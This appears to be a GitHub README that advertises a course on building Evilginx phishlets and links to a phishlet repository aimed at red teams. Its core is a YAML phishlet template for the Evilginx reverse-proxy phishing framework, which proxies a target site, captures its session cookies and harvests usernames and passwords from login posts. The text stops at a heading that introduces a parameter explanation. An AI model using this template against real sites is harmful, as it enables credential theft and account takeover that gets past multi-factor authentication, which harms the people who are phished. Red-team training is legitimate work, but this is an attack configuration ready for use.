 ![Phishlet Developer Course Preview - Course Components   Disciplines - frame at 0m1s](https://github.com/user-attachments/assets/06a65370-8c9b-48bc-ab34-cfe1422b17b1)

Click [HERE](https://www.simplerhacking.com/pages/evilginx-phishlet-creation-masterclass) to explore the full curriculum and enroll in our extensive course.

## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
Send us an email to info@simplerhacking.com or message directly on our website www.simplerhacking.com

##

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**
